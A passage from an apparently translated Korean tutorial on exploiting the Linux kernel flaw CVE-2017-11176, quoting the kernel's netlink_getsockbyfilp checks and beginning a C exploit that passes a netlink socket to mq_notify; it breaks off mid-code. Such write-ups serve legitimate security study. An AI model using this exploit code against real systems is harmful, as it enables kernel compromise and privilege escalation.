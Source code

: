첫 번째 검사 [0]를 통과하는 것은 간단하다. 유효한 file descriptor (with open(), socket(), whatever).를 건네주기만 하면 된다. 그럼에도 불구하고 처음부터 적절한 타입을 사용해줘야1 두 번째 검사[1]를 통과할 수 있기 때문에 더 바람직하다:

```c
    struct sock *netlink_getsockbyfilp(struct file *filp)
    {
      struct inode *inode = filp->f_path.dentry->d_inode;
      struct sock *sock;

      if (!S_ISSOCK(inode->i_mode))         // <--- this need to be a socket...
        return ERR_PTR(-ENOTSOCK);

      sock = SOCKET_I(inode)->sk;
      if (sock->sk_family != AF_NETLINK)    // <--- ...from the AF_NETLINK family
        return ERR_PTR(-EINVAL);

      sock_hold(sock);
      return sock;
    }
```

익스플로잇 코드는 다음과 같이 된다 (syscall *socket()*을 감싸는 것을 잊지 말자):

```c
    /*
     * CVE-2017-11176 Exploit.
     */

    #define _GNU_SOURCE
    #include <mqueue.h>
    #include <stdio.h>
    #include <string.h>
    #include <unistd.h>
    #include <sys/syscall.h>
    #include <sys/types.h>
    #include <sys/socket.h>
    #include <linux/netlink.h>

    #define NOTIFY_COOKIE_LEN (32)

    #define _mq_notify(mqdes, sevp) syscall(__NR_mq_notify, mqdes, sevp)
    #define _socket(domain, type, protocol) syscall(__NR_socket, domain, type, protocol)

    int main(void)
    {
      struct sigevent sigev;
      char sival_buffer[NOTIFY_COOKIE_LEN];
      int sock_fd;

      printf("-={ CVE-2017-11176 Exploit }=-\n");

      if ((sock_fd = _socket(AF_NETLINK, SOCK_DGRAM, NETLINK_GENERIC)) < 0)
      {
        perror("socket");
        goto fail;
      }
      printf("netlink socket created = %d\n", sock_fd);

      // initialize the sigevent structure
      memset(&sigev, 0, sizeof(sigev));
      sigev.sigev_notify = SIGEV_THREAD;
      sigev.sigev_value.sival_ptr = sival_buffer;
      sigev.sigev_signo = sock_fd;  // <--- not '-1' anymore

      if (_mq_notify((mqd_t)-1, &sigev))
```